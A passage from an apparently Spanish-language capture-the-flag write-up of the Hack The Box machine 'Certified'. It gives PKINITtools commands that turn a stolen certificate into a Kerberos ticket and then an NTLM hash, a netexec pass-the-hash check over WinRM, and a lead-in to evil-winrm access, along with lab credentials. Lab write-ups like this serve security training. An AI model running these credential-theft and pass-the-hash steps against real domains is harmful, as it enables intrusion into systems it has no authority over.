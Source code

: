 {% code overflow="wrap" %}
```bash
python /opt/PKINITtools/gettgtpkinit.py -dc-ip 10.10.11.41 certified.htb/MANAGEMENT_SVC -cert-pfx 3r6awZCj.pfx -pfx-pass YKnNhAzfknFJOWoLIcdS MANAGEMENT_SVC.ccache
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2485_vmware_YzB09i7rsA.png" alt=""><figcaption></figcaption></figure>

Una vez con el TGT generado, procederemos a extraer el hash NTLM del usuario objetivo. Verificamos que hemos conseguido el hash NTLM del usuario "management\_svc@certified.htb".

{% code overflow="wrap" %}
```bash
python /opt/PKINITtools/getnthash.py -dc-ip 10.10.11.41 certified.htb/MANAGEMENT_SVC -key 24e19988d8b8503066217b378c54975abc8bbbb55394817a1bcd4667eb3991fa 2>/dev/null
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2486_vmware_o79eT47JwN.png" alt=""><figcaption></figcaption></figure>

## Initial Access

### Validating the obtained NTLM hash

Procederemos a validar el hash NTLM obtenido del usuario "management\_svc@certified.htb" para comprobar que es válido.

```bash
netexec winrm 10.10.11.41 -u 'MANAGEMENT_SVC' -H 'a091c1832bcdd4677c28b5a6a1295584'
```

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

### Abusing WinRM

Una vez validado que podemos autenticarnos con el hash NTLm del usuario en cuestión y que hayamos comprobado que anteriormente con este usuario disponía de permisos para conectarse de manera remota, procederemos a acceder al WinRM a través de **evil-winrm**.
